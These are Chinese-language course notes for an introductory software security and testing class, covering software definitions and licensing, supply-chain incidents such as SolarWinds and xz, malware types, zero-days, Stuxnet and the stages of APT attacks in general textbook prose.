

# 课程介绍

## 课程目的

- 系统学习软件安全与测试的 `基本方法和技术` ，学会 `应用` 到 `软件开发和软件分析` 的实践中
  - 掌握 `软件安全` 的基本概念和方法
  - 掌握 `软件测试` 的基本方法和技术
  - 解决在现实世界中计算机软件的 `实际安全问题`

## 课程内容

- 软件安全概述
- 软件漏洞
- 软件安全开发
- 安全编程
- 恶意软件

- 软件安全性测试
  - 词法分析数据流分析
  - 模糊测试
  - 程序切片
  - 程序插桩
  - 污点分析
  - 符号执行
  - 渗透测试

- 软件测试概述
- 白盒测试
- 黑盒测试

## 课程考核

- 作业：实验大作业 or 专题研究报告(分组，两人一组)
- 考试：闭卷(有复习提纲)
- 课堂表现

# 第一章 软件安全概述

## 软件

### 软件的定义

- [x] GB/T 11457-2006《信息技术 软件工程术语》给出的软件定义是：与计算机系统的操作有关的 <kbd>计算机程序、规程和可能相关的文档</kbd>

- [x] 软件是程序、数据和文档的集合体
  > - 软件三要素： $\color{red}{软件 = 程序 + 数据 + 文档}$

- `程序` 是完成特定 **功能** 和满足 **性能** 要求的指令序列
- `数据` 是程序运行的 **基础** 和操作的 **对象**
- `文档` 是与程序 **开发、维护和使用** 有关的图文资料
> - 关注点从程序变为数据

#### 软件 VS. 网站

- [x] 网站(Website)开始是指在因特网上根据一定的规则，使用HTML(标准通用标记语言下的一个应用)等工具制作的用于展示特定内容相关网页的集合

- [x] 传统上： `网站` 一般要 `在线` 才能访问； `软件` 一般 `离线` 使用

- [x] 软件发展趋势： `C/S` 客户端/服务器端 → `B/S` 浏览器端/服务器端 → `SaaS` 云计算

- [x] 从某种意义上说： **网站是一种特殊的软件**

#### 数字化时代(A, B, C, D, E, F)

<p align="center">
  </img>
</p>

### 数据安全

- `必要` ：从业务设计而言，必须需要用户提供的 `基础数据` ，必须在业务中产生的 `生产数据` ，必须要使用、查看的 `用户数据` ；称之为必要。
- `使用规则` ：为什么？做什么？要什么？放哪里？谁能操作？
- `同意` ：同意的动机-我自愿还是我 `不得不同意`
- `与服务无关` ：在遵循必要性的原则之下，明确数据采集与服务的 `直接关系` 以及 `间接关系`
- `违法违约` ：法律所定义的有关数据采集、使用、操作等一系列活动所形成的约定；合同所声明的 `在不违反法律法规约定` 下的前述行为
- `轨迹数据`
- `影像数据`
- `语音数据`
- `用户画像`

### 软件 vs. 硬件

- `“硬件”是躯体，“软件”是灵魂`

- “软件”安装的硬件平台
  - 主机(PC、笔记本、服务器等)
  - 网络设备(路由器、交换机、防火墙、UTM等)
  - 消费类电子（智能手机、iPad等）

- “软件”可以包括
  - 操作系统
  - 数据库系统(与系统中的数据有区分)
  - 业务相关的管理信息系统(MIS)，Web网站
  - 手机APP，应用程序商店(App Store)
  - `联网软件` ：通信协议、通信加密、认证等

#### 软件是硬件的护城河

- 2006年，发布Compute Unified Device Architecture(CUDA)
  - 把之前用于图形渲染的流水线GPU架构更新为统一架构，
  - 让 `计算` 任务和 `图形渲染` 任务使用 `共同的硬件单元` 运行
  - 可以基于CPU的通用的编译器和工具链技术发展GPU技术

- 通过大学普及学习以推广CUDA。早在 2010 年，已经有关于 CUDA 数千篇论文，超过 350 所大学进行CUDA 教学课程。英伟达建立了CUDA认证计划、研究中心、教学中心，不断完善 CUDA 的生态链
- 靠着定制的 **软件平台、开发工具、应用工具** ，构建了“由 **软件、大学、初创公司和合作伙伴** 组成的强大而稳健且自给自足的 `生态系统` ”(福布斯评价)

### 软件的特点

- 软件不同于硬件，他是计算机系统中的 `逻辑实体` 而不是物理实体，具有 `抽象性`
- 软件的生产不同于硬件，它没有明显的制作过程，一旦开发成功，可以大量 `拷贝` 同一内容的副本
- 软件在运行过程中不会因为使用时间过长而出现` 磨损、老化` 以及 `用坏` 问题(软件运行可能会变慢 → 重装)
- 由于 `软件漏洞不可避免` ，因此软件一般需要 `不断升级`
- 软件的开发、运行在很大程度上依赖于计算机系统，受计算机系统的限制，在客观上出现了 `软件移植` 问题
- 软件开发复杂性高，开发周期长， `成本较大`
- 软件开发还涉及诸多的 `社会因素`

### 软件的分类

- [x] 按软件的 `功能` 分类
  - `系统软件` ：计算机运行的必不可少的组成部分，它与计算机 `硬件紧密配合` ，控制并协调计算机系统各个部件、相关的软件和数据高效地工作。例如操作系统、设备驱动程序、通信处理程序等
  - `应用软件` ：在 `特定领域` 内开发，为特定目的服务的软件。如MIS、OA等
  - `支撑软件` ： **协助用户开发软件** 的工具性软件，其中包括帮助程序人员开发软件产品的工具，也包括帮助管理人员控制开发进程的工具。例如支持需求/设计/编码/测试的软件、 `IDE` 、SDE等( `中间件` )

- [x] 按软件 `规模` 分类

<p align="center">
  </img>
</p>

- [x] 按软件 `工作方式` 分类
  - `实时处理软件` ：在事件或数据产生时立即对它们进行处理，并及时反馈信号，以检测和控制软件的执行
  - `分时软件` ：允许多个用户使用同一台计算机，允许多个程序 `分时共享硬件和软件资源` ，或者允许多个联机用户使用同一计算机
  - `交互式软件` ：能实现 `人-机通信`
  - `批处理软件`：把一组输入作业或一批数据以 `成批` 的方式一次运行，并按照 `顺序` 逐个处理

- [x] 按软件 `服务对象` 的范围划分
  - `项目软件` ：又称为 `定制软件` ，是受某个特定客户(或少数客户)的委托，由一个或多个软件开发机构在 `合同的约束` 下开发的软件
  - `产品软件` ：指向用户提供的计算机软件、信息系统、套装软件或在提供计算机信息系统集成、应用服务等技术服务时提供的软件，是 `通用` 的产品或应用于 `某一行业领域` 的产品，而不是像软件项目一样为某一需求或者单位定制开发

- [x] 按软件 `运行平台` 划分
  - 服务器端软件
  - PC端软件
  - 手机应用软件
  - 嵌入式软件

- [x] 按 `授权方式` 划分
  - `专属软件` ：此类授权通常 **不允许用户随意的复制、研究、修改或散布该软件** 。违反此类授权通常会有严重的法律责任。传统的商业软件公司会采用此类授权，例如微软的Windows和办公软件。专属软件的源码通常被公司视为私有财产而予以严密的保护
  - `自由软件` ：此类授权正好与专属软件相反，赋予用户复制、研究、修改和散布该软件的权利，并 `提供源码` 供用户自由使用，仅给予些许的其它限制。以Linux、Firefox和OpenOffice可做为此类软件的代表
  - `共享软件` ：通常可免费的取得 `并使用其试用版` ，但在功能或使用期间上受到限制。开发者会鼓励用户付费以取得功能完整的商业版本。根据共享软件作者的授权，用户可以从各种渠道免费得到它的拷贝，也可以自由传播它
  - `免费软件` ：可免费取得和转载，但并不提供源码，也无法修改
  - `公共软件` ：原作者已放弃权利，著作权过期，或作者已经不可考究的软件。使用上无任何限制

#### 开源软件的授权方式

- 开源软件共同特点：源代码开放、免费修改、免费重新发布

- `GPL(GNU General Public License)` ： `自由软件` 。允许免费修改、免费重发布，但 **要求修改代码必须也遵守GPL** 。在GPL下面还有LGPL，允许商业代码链接LGPL代码，这样商业软件在利用LGPL软件的同时能够很大程度上保留商业利益。如Linux/gcc/KDE等

- `BSD(Berkeley Software Distribution)` ： `公共域软件` ，其中apache的授权叫APL(Apache Licence)，是比较典型的授权声明。MIT(MIT License)与之类似。虽然保留版权，但不但免费修改、免费重新发布，而且允许商业使用， **允许商业修改后不公布修改的软件代码** 。如Chromium/xWindows/freeBSD/apache/perl/python/ruby等

- `MPL(Mozilla Public License)` ：商业公司的开源策略。允许免费重发布、免费修改，但 **要求修改后的代码版权归软件的发起者** ，这样发起者和组织者具有更优越的地位。MPL一般也是同时遵守LGPL的。如mozilla/openoffice/vim等

### 软件开发语言

- [x] 编程语言历史
  - Computer Languages History
  - https://www.levenez.com/lang

- [x] 编程语言流行指数
  - PYPL: PopularitY of Programming Language
  - http://pypl.github.io

### 软件 → 服务

- 软件即服务(Software as a Service，简称 `SaaS` )
  - 是一种软件交付模式（云计算服务模式之一）
  - 在这种交付模式中， `云端` 集中式托管软件及其相关的数据，软件仅需通过互联网，而 **不需安装即可使用**
  - 用户通常使用精简客户端经由一个网页 **浏览器** 来访问软件即服务
  - 通过将 **硬件和软件维护及支持** `外包` 给软件即服务的提供者，来降低信息技术成本

### 软件 → 软件生态系统

- 英伟达的CUDA(Compute Unified Device Architecture)生态系统
- 苹果手机的软件生态系统
  - `app Store` ： 应用商店，为iOS设备提供了超过百万款的应用程序。开发者可以通过App Store将应用程序推广并销售给全球的苹果用户
  - `iOS操作系统` ： 移动操作系统，运行在iPhone、iPad和iPod Touch等设备上。它为开发者提供了丰富的开发工具和框架，让他们能够创建功能丰富、高性能的应用程序
  - `开发者平台`： 包括开发者工具(如Xcode)和资源(如文档、样例代码等)，帮助开发者创建和优化iOS应用程序
  - `用户体验和生态一体化` ： 通过 **严格的审核和设计标准** ，确保App Store中的应用在用户体验和安全性方面保持高水准。 **iOS设备和苹果生态系统的无缝整合** 也是其优势之一，例如iCloud、Apple Pay、HealthKit等
  - `开发者社区` ： 苹果的生态系统促进了一个庞大的开发者社区，这个社区提供了技术支持、交流和合作机会，使得开发者能够共同成长并创造出更多创新的应用和服务

#### 软件生态系统

- 2016年，Ｍanikas等人将 `软件生态系统` 定义为“在 **公共的技术基础设施** 上软件产品与服务以及相关涉众者相互作用而形成的复杂系统”，强调软件生态系统中利益相关者采用 **数据共享、知识分享、软件产品及服务提供** 等方式为软件生态系统做贡献

- `软件生态系统` 是指在一个 **共同的技术平台上** ， **众多的参与者协同合作** ，最终形成 **大量的软件解决方案或服务** 。软件生态系统目前是在软件平台上结合内部和外部参与者开发的组件来构建大型软件系统的有效方法

##### 软件生态系统的构成

<p align="center">
  </img>
</p>

- 按照对软件生态系统的重要程度，将利益相关者扮演的角色细化为：
  - `核心开发者` 类似于自然生态系统中的 **植物** ，他们利用环境提供的各类资源开发出对软件生态系统生存与发展起到 **关键作用** 的软件制品
  - `活跃开发者` 类似于自然生态系统中的 **植食性动物** ，贡献新的软件制品、参加软件测试及运维工作
  - `外围开发者` 类似于自然生态系统中的 **猎食者** ，运用已有的软件制品编织形成 **面向终端用户** 的软件产品
  - `用户` 是软件生态系统中的 **顶级猎食者** ，使用软件产品为其 **工作、生活服务** ，把软件体验、对软件生态系统的期望反馈给软件生态系统，推动软件生态系统不断发展

##### 软件生态系统的分类

- 软件生态系统种类繁多，从不同视角对软件生态系统进行解读，派生出不同的软件生态系统分类方法
  - 按照 `商业诉求` 情况：划分为 `商业` 软件生态系统、 `免费及开源` 软件生态系统
  - `软件部署环境` 差异：划分为 `服务器` 软件生态系统、 `桌面` 软件生态系统、 `嵌入式` 软件生态系统、 `云计算` 软件生态系统
  - 软件 `在计算机系统中扮演角色` 不同：划分为 `系统软件` 生态系统、 `支撑软件` 生态系统和 `应用软件` 生态系统
  - 将软件生态系统和 `应用领域` 相结合，则产生行业应用软件生态系统：智能汽车软件生态系统、智慧农业软件生态系统、互联网教育软件生态系统、社交软件生态系统、智慧医疗软件生态系统、区块链应用软件生态系统等

### 软件 → 软件供应链

- [x] 时至今日，绝大多数的开发者 **并不是从零开始开发软件** ，而是在创建软件时依赖 **第三方资源** 。通过**使用预先构建的库和开源组件** ，工程师们可以加快开发进程并且降低生产成本，从而快速将产品推向市场

- [x] “ `供应链` ”这一术语通常用于 **制造业** ，是指 **制作和分发一个产品的人员和流程** 。例如，一家造飞机的公司会自己制造一些部件，也会从其他公司购买和组装部件。他们根据设计规格组装零件，然后对新飞机进行测试。通过测试后，新飞机会被交付到航空公司和飞行员手中

- `软件供应链` 定义为在软件开发中所涉及到的 **组件、开发流程** 以及投入 **生产** 和最终软件产品 **分发** 的过程

#### 软件供应链的构成

- [x] 构成软件的诸多组件中，有部分依赖项并非由你的团队开发
  - 硬件和基础架构
  - 操作系统
  - 编译器和编辑器
  - 驱动和依赖项
  - 开源脚本和打包好的软件
  - 代码仓库引擎、测试套件以及CI/CD(持续集成/持续交付或部署)工具
  - 云服务和数据中心
  - **公司外部的人员配置** ，比如外包公司、咨询师以及供应商等

- `软件供应链安全` ：软件供应链上 **软件设计与开发的各个阶段** 中来自 **本身** 的编码过程、工具、设备或 **供应链上游** 的代码、模块和服务的安全，以及 **软件交付渠道及使用过程** 安全的总和

#### 软件供应链安全

- 2020年底，威胁攻击者成功入侵SolarWinds Orion软件的 `开发环境` ，在其中植入大量恶意代码。此后，包括美国国务院、五角大楼、国土安全部、商务部、财政部、国家核安全委员会等部门以及多个财富500强在内的SolarWinds Orion客户相继遭到网络袭击

- 后续调查显示，早在2019年9月，攻击者可能已经秘密访问公司内部网络系统，对文件 SolarWinds.Orion.Core.BusinessLayer **.dll的源代码进行篡改，并添加了后门代码** 。几天后，便开始在编译服务器上修产品发布流程，植入恶意代码并进行测试，这一过程持续近两个月

- 2021年底，深植于全球软件供应链的知名开源日志组件ApacheLog4j被曝存在“ `核弹级` ”的远程代码执行漏洞

- 2022年，Gartner就将“软件供应链”列为了 2022年的第二大威胁，并预测到 2025 年， **全球45%组织难免会一次甚至多次成为受害者**

##### xz供应链安全事件

- xz供应链安全事件的主要时间线如下：
  - 2021年1月26日，GitHub账号JiaT75创建
  - 2022年起该账号开始向XZ Utils项目贡献代码
  - 2024年2月24日，在GitHub release中发布了第一个包含后门的版本5.6.0。
  - 2024年3月30日，微软工程师Andres Freund在排查sshd服务异常后发现xzutils的上游tar包问题，并报告给oss-security社区。随即引发各大安全厂商的轮番研判

- XZ-Utils是Linux、Unix等POSIX兼容系统中广泛用于处理.xz文件的套件，包含liblzma、xz等组件，已集成在Debian、Ubuntu、CentOS等发行版仓库中。作为一种通用的 `数据压缩格式` ，liblzma/xz通常也会集成在各类社区项目或是商业产品发行版中

- 本次xz事件的威胁主要是由于SSH底层依赖liblzma等组件，攻击者可利用后门在受影响的系统上 **绕过SSH远程连接的认证，直接获得系统权限，执行任意代码**

##### 蓝屏死机

- 北京时间2024年7月19日中午开始，全球多地用户在X、脸书、微博等社交平台反映使用微软系统的电脑出现蓝屏现象，至少20多个国家的交通、金融、医疗、零售等行业或公共服务的业务系统受到影响，全球约850万台设备宕机

- 出现故障的终端并不止限于桌面终端，而是 **覆盖了大量的服务器和云节点** ，包括导致了多个重要的微软和AWS的 **云服务和租户服务中断**

- 原因：CrowdStrike公司的终端安全软件“Falcon Sensor”推送的 **错误的配置更新与Windows系统发生了兼容性问题** ，导致系统崩溃，即“蓝屏死机”

> - $\color{blue}{安全软件 → 操作系统 → 云服务 → 云租户 → 业务系统}$

#### 如何缓解供应链攻击？

- `供应商审查和管理` ：将供应商的数字资产纳入全面的、基于真实风险的安全评估体系中，通过要求供应商提供 **安全合规性文件、安全认证和独立审计报告** ，建立一个包括评估潜在供应商的安全实践、安全标准和数据保护措施的全面供应商审查程序

- `减少第三方和开源组件依赖` ：审查和评估其对第三方和开源组件的依赖情况， **识别和分析所有使用的第三方库、框架和工具，了解其安全性和稳定性** ，通过对第三方和开源组件的全面审查，可以识别潜在的安全风险和漏洞，及时采取措施进行修复或替换

- `数据交换与可见性权限控制` ：采取有效的措施来管理数据交换和可见性权限，以确保 **只有合适的人员能够访问和处理敏感信息** ，采用加密技术保护数据在传输过程中的安全，确保数据在传输过程中不被窃取或篡改

- `可信、透明与溯源` ：建立可信、透明的供应链生态系统，与供应商建立长期合作关系，并确保他们 **符合一定的安全标准和规范，通过建立信任和透明度** ，可以降低供应链攻击的风险，因为供应商将更加积极地配合安全措施和审查

## 软件安全

### 软件面临的安全威胁

- 软件自身的安全(软件漏洞)

- 恶意代码

- 软件侵权

#### 软件漏洞(Vulnerability)

- **软件漏洞是普遍存在的** ，系统软件、应用软件和第三方软件，它们在开发、部署和应用中的问题层出不穷

- `软件漏洞` 通常被认为是软件生命周期中与安全相关的 **设计错误、编码缺陷及运行故障** 等
  - 本课程并不对软件漏洞/脆弱点、软件缺陷以及软件错误等概念严格区分
  - 一方面，软件漏洞可能会造成软件在运行过程中出现 `错误结果` 或 `运行不稳定` 、 `崩溃` 等现象，甚至引起死机等情况
  - 另一方面，软件漏洞会被黑客 `发现、利用` ，进而实施窃取隐私信息、甚至破坏系统等 `攻击` 行为

- 软件漏洞利用过程：

<p align="center">
  </img>
</p>

##### 漏洞库

- 中国国家信息安全漏洞共享平台CNVD(由CNCERT维护)：
  > - http://www.cnvd.org.cn
- 国家信息安全漏洞库(由中国信息安全评测中心维护)：
  > - http://www.cnnvd.org.cn
- 绿盟科技-安全漏洞：
  > - http://www.nsfocus.net/index.php?act=sec_bug
- 美国国家信息安全漏洞库： https://nvd.nist.gov/
- CVE(美国国土安全资助的MITRE公司负责维护) ：
  > - https://cve.mitre.org/
- 赛门铁克的漏洞库： https://www.securityfocus.com/
- Offensive Security公司漏洞库： https://www.exploit-db.com/

#### 恶意代码(Malware)

- `恶意代码` (Malicious software)是在 **未被授权** 的情况下， **以破坏软硬件设备、窃取用户信息、干扰用户正常使用、扰乱用户心理为目的** 而编制的软件或代码片段
- 定义指出，恶意代码是软件或代码片段，其实现方式可以有多种，如二进制执行文件、脚本语言代码、宏代码或是寄生在其他代码或启动扇区中的一段指令

- 恶意代码包括：
  - `计算机病毒` (Virus)
  - `蠕虫` (Worm)
  - `木马` (Trojan Horse)
  - `后门` (Back Door)
  - 内核套件(Rootkit)
  - 间谍软件(Spyware)
  - `网络钓鱼` (Phishing)
  - 恶意脚本(Malice Script)
  - 恶意广告(Dishonest Adware)
  - 流氓软件(Crimeware)
  - 逻辑炸弹(Logic Bomb)
  - `僵尸网络` (Botnet)
  - 垃圾信息(Spam)
  - `勒索软件` (Ransomware)

#### 软件侵权

- 主要指 `侵犯版权` (著作权)，常见侵权行为：
  - 未经软件著作权人许可，发表、登记、 **修改、翻译** 其软件
  - 将他人软件作为自己的软件发表或者登记，在他人软件上署名或者更改他人软件上的署名
  - 未经合作者许可，将与他人合作开发的软件作为自己单独完成的软件发表或者登记
  - **复制或者部分复制** 著作权人的软件
  - 向公众发行、出租、通过信息网络传播著作权人的软件
  - **故意避开或者破坏** 著作权人为保护其软件著作权而采取的技术措施
  - 故意删除或者改变软件权利管理电子信息
  - 转让或者许可他人行使著作权人的软件著作权

### 零日漏洞(zero-day)

- `恶意软件` 作为网络战武器对国家关键基础设施乃至整个国家的巨大破坏力。攻击者为了能够有效达到窃取数据、破坏系统的目的，可以通过挖掘或是购买零日漏洞， **开发针对零日漏洞的攻击工具** 实施攻击

- `零日漏洞` 是指 **未被公开披露** 的软件漏洞， **没有** 给软件的作者或厂商以 **时间** 去为漏洞 **打补丁** 或是给出 **建议解决方案** ，从而攻击者能够利用这种漏洞破坏计算机程序、数据及设备

- 注意，零日漏洞并不是指软件发布后被立刻发现的漏洞

- 利用零日漏洞开发攻击工具进行的攻击称为 `零日攻击`

- 零日攻击针对的漏洞由于软件厂商还没有发现或是还未及提供相应的补丁，所以零日攻击的 **成功率高，造成的破坏大**

- 从日常黑客攻击到军事领域的对抗，从 `震网` 病毒到 `棱镜门` 事件，信息空间的几乎所有攻防对抗都是以软件安全问题为焦点展开的

### 网络武器

- 震网病毒， `第一个直接破坏` 现实世界中 `工业基础设施` 的恶意代码，世界上首个网络“ `超级武器` ”(2010年6月首次发现)

- **突破工业专用局域网的物理限制** ，对西门子公司的数据采集与监控系统SIMATIC WinCC进行攻击。该系统在我国多个重要行业应用广泛，被用来进行钢铁、电力、能源、化工等重要行业的人机交互与监控

- 感染了全球超过 45000个网络，伊朗遭到的攻击最为严重，60%的个人电脑感染了这种病毒

- 伊朗约20%的离心机因感染病毒而失灵甚至是完全报废。伊朗核武器计划也遭受挫折，西方专家预测伊朗造出核弹的时间也从一年后推迟到三年后

#### 震网病毒

- Stuxnet蠕虫病毒(超级工厂病毒)

##### 震网病毒利用的漏洞

- 震网病毒利用了微软操作系统中至少5个漏洞和2个西门子公司的SIMATIC Wincc系统漏洞，另外还有2个有效数字证书

- 震网病毒利用的微软Windows操作系统的漏洞有：
  - RPC远程执行漏洞(MS08一067)
  - 快捷方式文件解析漏洞(MS10一046)
  - 打印机后台程序服务漏洞(MS10一061)
  - 内核模式驱动程序权限提升漏洞(MS10一073)
  - 任务计划程序权限提升漏洞(MS10一092)

- 除了第1个是早已被发现的漏洞外，后4个漏洞都是在震网病毒中 **首次被使用** ，是真正的 **零日漏洞**

### APT攻击

- `高级持续性威胁(Advanced Persistent Threat)`
- APT是一种复杂的、持续的网络攻击，包含三个要素：高级、长期、威胁
  - `高级` 是指执行APT攻击需要比传统攻击更高的 **定制** 程度和 **复杂** 程度，需要花费大量时间和资源来研究确定系统内部的漏洞
  - `长期` 是为了达到特定目的，过程中“放长线”， **持续监控目标** ，对目标保有 **长期的访问权**
  - `威胁` 强调的是 **人为参与策划** 的攻击， **攻击目标是高价值的组织** ，攻击一旦得手，往往会给攻击目标造成巨大的经济损失或政治影响，乃至于毁灭性打击

#### APT攻击链

- [x] APT攻击者通常是一个组织，从瞄准目标到大功告成，要经历多个阶段，在安全领域这个过程叫做 **攻击链**

- [x] 每个厂家对于攻击链的步骤定义略有差异，但本质上相差不大

<p align="center">
  </img>
</p>

##### APT攻击链：信息收集

- 攻击者 **选定目标** 后，首先要做的就是 **收集所有跟目标有关的情报信息**

- 这些情报可能是目标的组织架构、办公地点、产品及服务、员工通信录、管理层邮箱地址、高层领导会议日程、门户网站目录结构、内部网络架构、已部署的网络安全设备、对外开放端口、企业员工使用的办公OS和邮件系统、公司web服务器的使用的系统和版本等等

##### APT攻击链：外部渗透

- 信息收集完成后，就要考虑如何渗透到组织内部。 **从钓鱼邮件、web服务器还是U盘入手** ？如果是钓鱼邮件，利用哪种客户端软件的 **零日漏洞** ？如果是web服务器，目标用户最常去的网站有哪些？

- 渗透手段确定后，下一步则需要 **制作特定的恶意软件**。通常，攻击者所在组织会有专门的一拨人从事零日漏洞的挖掘和利用，他们也会密切关注一些漏洞报告平台上的最新公告，利用这种公开或半公开披露的漏洞原理以及可能的POC代码来进一步制作自己的趁手武器，例如带有 **恶意代码** 的pdf文件或office文件。这种恶意代码被称作 <kbd>shellcode</kbd> ，往往短小精悍，采用代码混淆、加壳、加密等反侦测手段，并在投递之前用各种最新的防病毒软件检测一遍，以期在投递到目标网络之后尽可能不被发现

- 恶意软件制作好，下一步是把它 **投递到目标网络内** 。常用的手法包括邮件附件、网站(挂马)、U盘等
  - 对于 **钓鱼邮件攻击** ，黑客务必要精心构造一封足以乱真的邮件内容，邮件标题、邮件内容、附件的名称和类型，都要让收件者放松警惕，产生兴趣，最终打开邮件附件或邮件正文中的URL链接。例如2020年结合疫情热点发送钓鱼邮件或制作诱饵文件，成为了全球高级持续性威胁的普遍趋势
  - 对于网站(挂马)，要根据攻击目标的兴趣爱好，选择一个合适的网站下手，这个网站必须存在可被利用的零日漏洞，然后对网站展开渗透和攻击，攻破后放上一个能自动在后台进行下载的脚本，让访问该网页的目标用户在不知不觉中就把含有恶意软件下载到本地，同时利用浏览器漏洞来安装执行
  - 而使用U盘载体来投递恶意软件的攻击行为，一般需要近距离的接触。当攻击目标不在internet上，不连接外网时，是一种手段

##### APT攻击链：命令控制

- 当目标用户使用含有漏洞的客户端程序或浏览器打开带有恶意代码的文件时，就会被恶意代码击中漏洞，下载并安装恶意软件，恶意软件通常是一个体积很小的 **远程控制工具** ，业内简称为RAT(即Remote Administration Tool，或Remote AccessTrojan)，用于与控制服务器建立 **C&C信道**

- 恶意程序一般还会提升权限或添加管理员用户，把自己设置为开机启动，甚至在后台悄悄关闭或修改主机防火墙设置，以让自己尽可能不被发现

##### APT攻击链：内部扩散

- 同一个组织机构内部的办公主机往往都是相同的系统、类似的应用软件环境，因此很大程度上具备相同的漏洞

- 攻陷一台内网主机后，恶意程序会 **横向扩散到子网内其他主机或纵向扩散到企业内部服务器**

- 由于RAT具备键盘记录和屏幕录像功能，因此很容易获取用户的域密码、邮箱密码及各类服务器密码

##### APT攻击链：数据泄露

- 聪明的黑客在攻击的每一步过程中都通过 **匿名网络、加密通信、清除痕迹** 等手段来自我保护

- 在机密信息外发的过程中，也会采用各种技术手段来避免被网络安全设备发现
  - 一方面 **化整为零** ，将机密信息打散、加密或混淆，避免DLP设备通过关键字扫描发现泄密
  - 另一方面会 **限制发送的速率** ，以尽量不超过各类安全设备的检测阈值

#### ART攻击示例

- 极光攻击
- 海莲花攻击

#### APT攻击的特点

- `攻击者组织严密` ：往往是一个组织发起的攻击，可能具有军事或政治目的，有时会与某个国家关联在一起，而且背后往往有强大的资金支持
- `针对性强` ：攻击者不会盲目攻击，一般会很有针对性的选择一个攻击目标，该目标往往具有军事、政治、经济上的较高价值
- `手段高超` ：APT攻击的恶意代码变种多且升级频繁，结合尚未发布的零日漏洞，使得基于特征匹配的传统检测防御技术很难有效检测出攻击
- `隐蔽性强`：APT攻击者具有较强的隐蔽能力，不会像DDoS攻击一样构造大量的报文去累垮目标服务器，基于流量的防御手段很难发挥作用；在整个过程中都会使用高级逃逸技术来刻意躲避安全设备的检查，在系统中并无明显异常，基于单点时间或短时间窗口的实时检测技术和会话频繁检测技术也难以成功检测出异常攻击
- `持续时间长` ：攻击者一般都很有耐心，渗透过程和数据外泄阶段往往会持续数月乃至数年的时间

### 对软件安全必须给与强烈关注

- 软件安全应当引起重视，应当成为当务之急，甚至成为国家的一项竞争优势

- `错误认识一` ：应对安全威胁的主要手段是 **密码** 技术，是添置 **边界防护** 等各种安全设备

- 是什么真正引发了当今世界大多数的信息安全问题？有人会回答，是 **黑客** 的存在

- 那么黑客和网络犯罪分子的主要目标是什么？有人会回答，是重要的信息资产，是各类敏感 **数据**

- 黑客是如何实现盗取重要信息资产的？黑客成功实施攻击的途径是什么？那就是发现、挖掘和利用信息系统的 **漏洞**

- `错误认识二` ：不值得在关注软件安全，降低糟糕的软件开发、集成和部署带来的风险上花费成本

- 软件项目受限成本和进度，往往牺牲安全
  - 软件工程人员 `缺少安全意识` 和教育的专门 `培训`
  - 通常在开发 `后期` 进行 `测试` 以消除编码错误或缺陷

- **开发出安全漏洞尽可能少的软件** 应当是软件开发者或者说是 **软件厂商** 追求的目标
  - 根据现实世界的经验，保证方案具有 **较好的成本效益、操作相关性和可行性以及投资的可行性**

### 软件安全的概念

- 国家标准GB/T 30998—2014《信息技术 软件安全保障规范》给出的软件安全(Software Safety)的定义是：
  - 软件工程与软件保障的一个方面，它提供一种 **系统的方法** 来 **标识、分析和追踪** 对 `危害` 以及具有危害性的功能(例如数据和命令)的 `软件缓解措施与控制`

- `软件安全` 就是使 软**件在受到恶意攻击的情形下依然能够继续正确运行的工程化软件思想**
  - Gary McGraw, Cigital公司CTO
  - 《Software Security: Building Security In》/《软件安全：使安全成为软件开发必需的部分》
  - BSI内建安全开发模型
  - http://buildsecurityin.us-cert.gov/portal/

- 采用 **系统化、规范化、和数量化** 的方法来指导构建 **安全的软件**

#### Safety VS. Security

- 国内外大多数软件安全标准中，软件安全用的是Software $\color{red}{Safety}$ ，而非Software  $\color{red}{Security}$
  - safety侧重于对 `无意` 造成的事故或事件进行安全保护，可以是加强人员培训、规范操作流程、完善设计等方面的安全防护工作
  - security则侧重于对 `人为的有意` 的破坏进行的保障和保护，比如部署专门安全设备进行防护、加强安全检测等

- 对于软件安全，既要考虑软件系统中开发人员 **无意** 的错误，又要考虑 **人为地** 故意地针对软件系统的渗透和破坏，因此，通常不对Software Safety和Software Security进行区分

### 软件安全的三种研究

- [x] 软件测试，漏洞挖掘，脆弱性分析

- [x] 软件验证，证明

- [x] 软件容错，冗余，备份

### 软件安全

- **软件安全 vs. 安全的软件，不是一回事**

- 软件安全是一种 `系统级` 的问题，需要考虑 **安全机制** (比如访问控制)和基于 **安全的设计** (比如使攻击难以实施的健壮设计)

- 软件安全必须成为 **完整的软件开发生命周期** 方法的一部分

#### 从计算机安全属性理解软件安全

- CIA模型：保密性、完整性、可用性
  - 物理隔离、访问控制、信息加密等
  - 哈希值计算、数字签名
  - 系统容侵容错、备份与灾难恢复、应急响应

- 还有：可认证性、授权、可审计性、抗抵赖性、可控性、可存活性等

##### 计算机安全 → 软件安全的特点

- [x] 软件安全是计算机安全的一个分支

- [x] 软件安全是计算机安全的关键

- [x] 软件安全问题的根源是软件存在弱点

- [x] 用工程化的方法来实施软件安全

- <kbd>软件安全是计算机安全的一个分支</kbd>
  > - ***计算机安全的研究范畴包括硬件安全、软件安全、数据安全、运行安全和网络安全***

##### 软件安全是计算机安全的关键

- 软件是计算机安全的大问题， **危害计算机安全的绝大部分因素都与软件相关**
  - 软件的 `不稳定` 导致系统崩溃和数据丢失
  - 病毒攻击的是软件的 `缺陷`
  - 黑客利用的是软件的 `弱点`
  - 机密和隐私的泄漏是因为软件存在 `漏洞`

- $\color{red}{计算机安全中的首要和关键问题是软件问题}$

##### 软件安全问题的根源是软件存在弱点

- **现有方法并不能解决软件安全问题**
  - 反病毒程序和防火墙之类的保护程序
  - 密码学之类的信息加密技术

- 假设有一个程序，其密码验证是用加密算法来实现的，它安装在一个被防火墙保护的系统中，系统中安装了反病毒程序
  - $\color{red}{这个程序是否健壮}$ ，可能存在溢出类弱点
  - $\color{red}{没有谁能保证防火墙和反病毒软件是完全可靠的}$ ，它们也可能存在缓冲区溢出之类的弱点

##### 用工程化的方法来实施软件安全

